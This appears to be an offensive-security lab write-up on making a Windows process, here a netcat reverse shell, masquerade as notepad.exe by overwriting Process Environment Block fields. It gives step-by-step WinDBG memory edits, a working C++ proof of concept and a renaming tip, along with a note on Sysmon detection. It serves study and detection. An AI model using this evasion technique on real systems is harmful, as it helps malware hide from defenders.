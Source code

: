 ```yaml
---
description: >-
  Understanding how malicious binaries can maquerade as any legitimate Windows
  binary
---
```


# Masquerading Processes in Userland via \_PEB

This is possible, because information about the process, i.e commandline arguments, image location, loaded modules, etc is stored in a memory structure called Process Environment Block \(`_PEB`\) that is accessible and, given right privileges \(`SeDebugPrivilege`\) - writeable from the userland.

## Overview

In this short lab I am going to use a WinDBG to make my malicious program pretend to look like a notepad.exe \(hence masquerading\) when inspecting system's running processes with tools like Sysinternals ProcExplorer and similar. Note that his is not a [code injection](../offensive-security/t1055-process-injection/) exercise. 

This lab builds on the previous lab:

{% page-ref page="../memory-forensics/process-environment-block.md" %}

## Context

For this demo, my malicious binary is going to be an `nc.exe` -  a rudimentary netcat reverse shell spawned by cmd.exe and the PID of `4620`:

![](../.gitbook/assets/malicious-process.PNG)

Using WinDBG, we will make the nc.exe look like notepad.exe. This will be reflected in the `Path` field and the binary icon in the process properties view using ProcExplorer as seen in the below graphic. Note that it is the same nc.exe process \(PID 4620\) as shown above, only this time masquerading as a notepad.exe:

![](../.gitbook/assets/masquerade-5.png)

## Execution

So how is this possible? Read on.

Let's first have a look at the \_PEB structure for the `nc.exe` process using WinDBG:

```csharp
dt _peb @$peb
```

![](../.gitbook/assets/masquerade-13.png)

Note that at the offset `0x020` of the PEB, there is another structure which is of interest to us -  `_RTL_USER_PROCESS_PARAMETERS`, which contains nc.exe process information. Let's inspect it further:

```csharp
dt _RTL_USER_PROCESS_PARAMETERS 0x00000000`005e1f60
```

![](../.gitbook/assets/masquerade-12.png)

The offset `0x060` of `_RTL_USER_PROCESS_PARAMETERS` is also of interest to us - it contains a member `ImagePathName` which points to a structure `_UNICODE_STRING` that, as we will see later, contains a field `Buffer` which effectively signifies the name/full path to our malicious binary nc.exe. Note how at the offset `0x70` we can see the commandline arguments of the malicious process, which we explored [previously](../memory-forensics/process-environment-block.md).

Let's inspect the aforementioned `_UNICODE_STRING` structure:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-10.png)

`_UNICODE_STRING` structure describes the lenght of the string and also points to the actual memory location ``0x00000000`005e280e`` by the `Buffer` field that contains the string which is a full path to our malicious binary.

Let's confirm the string location by dumping the bytes at ``0x00000000`005e280e`` by issuing the following command in WinDBG:

```csharp
0:002> du 0x00000000`005e280e
00000000`005e280e  "C:\tools\nc.exe"
```

![](../.gitbook/assets/masquerade-9.png)

Now that I have confirmed that ``0x00000000`005e280e`` indeed contains the path to the binary, let's try to write a new string to that memory address. Say, let's try swapping the nc.exe with a path to the notepad.exe binary found in Windows\System32\notepad.exe:

```csharp
eu 0x00000000`005e280e "C:\\Windows\\System32\\notepad.exe"
```

![](../.gitbook/assets/masquerade-1.png)

{% hint style="warning" %}
If you are following along, do not forget to add NULL byte at the end of your new string to terminate it:

```text
eb 0x00000000`005e280e+3d 0x0
```
{% endhint %}

Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-4.png)

We can see that our string is getting truncated. This is because the `Lenght` value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to only 15 unicode characters:

![](../.gitbook/assets/masquerade-3.png)

Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```csharp
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

Good, the string pointed to by the field `Buffer` is no longer getting truncated:

![](../.gitbook/assets/masquerade-2.png)

For the sake of this demo, I cleared out the commandline arguments the nc.exe was launched with by amending the `_UNICODE_STRING` structure member `Lenght` by setting it to 0:

```csharp
eb 0x00000000`005e1f60+70 0x0
```

Inspecting our malicious nc.exe process again using Process Explorer reveals that it now looks like notepad without commandline arguments:

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code-tabs %}
{% code-tabs-item title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));

	//resolve address of NtQueryInformationProcess in ntdll.dll
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");

	//get _PEB object
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);

	//replace commandline and imagepathname
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:

![](../.gitbook/assets/screenshot-from-2018-10-23-23-36-52.png)

![](../.gitbook/assets/masquerade-14.png)

## Observations

Switchingf back to the nc.exe, if we check the `!peb` data, we can see a notepad.exe is being shown in the  `Ldr.InMemoryOrderModuleList` memory structure - pretty cool:

Note that to further obfuscate the malicious binary, one could also rename the binary itself from nc.exe to notepad.exe.

![](../.gitbook/assets/screenshot-from-2018-10-23-19-47-59.png)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess\#return-value" %}

Note that even though it shows in the loaded modules that notepad.exe was loaded, it still does not mean that there was an actual notepad.exe process created and sysmon logs prove this, meaning commandline logging can still be helpful in detecting this behaviour.

![](../.gitbook/assets/screenshot-from-2018-10-23-20-02-49.png)

## Credits

[@b33f](https://twitter.com/FuzzySec) for his [Masquerade-PEB.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1) which is what originally inspired me \(quite some time ago now\) to explore this concept, but I never got to lay my hands on it until now.  
[  
@Mumbai](https://twitter.com/@ilove2pwn_) for talking to me about C++ and NtQueryInformationProcess

## References

{% embed url="https://twitter.com/fuzzysec/status/775541332513259520?lang=en" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/ns-winternl-\_peb\_ldr\_data" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess" %}

